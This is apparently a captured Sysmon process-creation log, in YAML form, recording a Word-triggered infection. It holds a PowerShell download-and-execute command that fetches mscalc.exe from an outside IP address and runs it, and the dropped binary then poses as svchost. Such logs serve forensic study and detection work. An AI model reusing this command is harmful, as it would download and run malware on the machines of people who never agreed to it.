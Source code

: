 ```
    ParentCommandLine: c:\\microsoft\\office\\word\\document\\..\\..\\..\\..\\windows\\system32\\cmd.exe /c powershell.exe (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','%temp%\mscalc.exe');start-process '%temp%\mscalc.exe'
    ParentImage: C:\Windows\System32\cmd.exe
    ParentProcessGuid: 335CB4AA-60FA-650A-FE00-000000000D00
    ParentProcessId: 8776
    ParentUser: DESKTOP-V0F35DT\HoaGay
    ProcessGuid: 335CB4AA-60FB-650A-0001-000000000D00
    ProcessId: 3856
    Product: Microsoft┬« Windows┬« Operating System
    RuleName: '-'
    TerminalSessionId: 1
    User: DESKTOP-V0F35DT\HoaGay
    UtcTime: 2023-09-20 03:03:23.066
  System:
    Channel: Microsoft-Windows-Sysmon/Operational
    Computer: DESKTOP-V0F35DT
    Correlation: null
    EventID: 1
    EventRecordID: 3839
    Execution_attributes:
      ProcessID: 2260
      ThreadID: 552
    Keywords: '0x8000000000000000'
    Level: 4
    Opcode: 0
    Provider_attributes:
      Guid: 5770385F-C22A-43E0-BF4C-06F5698FFBD9
      Name: Microsoft-Windows-Sysmon
    Security_attributes:
      UserID: S-1-5-18
    Task: 1
    TimeCreated_attributes:
      SystemTime: 2023-09-20T03:03:23.074103Z
    Version: 5
Event_attributes:
  xmlns: http://schemas.microsoft.com/win/2004/08/events/event

---
Event:
  EventData:
    CommandLine: '"C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe" '
    Company: Microsoft
    CurrentDirectory: C:\Users\HoaGay\Documents\Subjects\
    Description: svchost
    FileVersion: 1.0.0.0
    Hashes: MD5=B94F3FF666D9781CB69088658CD53772
    Image: C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe
    IntegrityLevel: Medium
    LogonGuid: 335CB4AA-604E-650A-8DB4-040000000000
    LogonId: '0x4b48d'
    OriginalFileName: svchost.exe
    ParentCommandLine: powershell.exe  (new-object system.net.webclient).downloadfile('http://103.162.14.116:8888/mscalc.exe','C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe');start-process 'C:\Users\HoaGay\AppData\Local\Temp\mscalc.exe'
    ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    ParentProcessGuid: 335CB4AA-60FB-650A-0001-000000000D00
    ParentProcessId: 3856
    ParentUser: DESKTOP-V0F35DT\HoaGay
    ProcessGuid: 335CB4AA-60FC-650A-0201-000000000D00
    ProcessId: 7528
    Product: svchost
    RuleName: '-'
```